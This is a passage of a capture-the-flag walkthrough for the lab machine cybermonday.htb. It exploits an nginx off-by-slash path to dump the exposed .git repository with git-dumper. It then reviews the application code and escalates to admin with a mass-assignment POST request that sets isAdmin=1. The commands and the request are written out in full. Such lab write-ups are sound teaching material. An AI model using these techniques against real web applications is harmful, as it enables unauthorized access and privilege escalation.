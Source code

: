 ```
[git-config-nginxoffbyslash] [http] [medium] http://cybermonday.htb/assets../.git/config
```

Commonly, we can try exploit it with https://github.com/arthaud/git-dumper, a useful tool for this enumeration type.

```bash
python git-dumper/git_dumper.py "http://cybermonday.htb/assets../.git" /path/to/output/
```

now, inside of the repository, it's possible to check the hash already found in stacktrace.

```bash
git checkout f439e6a6
```

I didn't notice a biggest difference between commits, and the text commit is not really showy, so lets go to the application structure.

### isAdmin parameter


[!Desktop View](/images/cybermonday/admin.png)
We can see in this file, User.php, a file code referring in a parameter isAdmin which is a bool in protected array. 
Following for other files, we can see "ProfileController.php", what import the "User.php" file.
[!Desktop View](/images/cybermonday/admin2.png)

> the public function update in line 17, it's a process to update the user, the same saw in update profile page, but the user in line 33, is a instantiated object from the other file above from it. Maybe the request at 19 line can be manipulated to receive and parse the isAdmin argument?
{: .prompt-info }
```json
POST /home/update HTTP/1.1
Host: cybermonday.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 121
Origin: http://cybermonday.htb
Connection: close
Referer: http://cybermonday.htb/home/profile
Upgrade-Insecure-Requests: 1

_token=bmBDgxDDl2EN8eeemlHkUbus6n8BeZWLcCUQmSwW&username=123&email=123%40gmail.com&password=123&password_confirmation=123&isAdmin=1
```

After it, we can explore the /dashboard route, with some graphs and other tabs in sidebar.
[!Desktop View](/images/cybermonday/admin3.png)
at changelog, the following screen it showed:
[!Desktop View](/images/cybermonday/admin4.png)
and checking this links, with found a new subdomain.
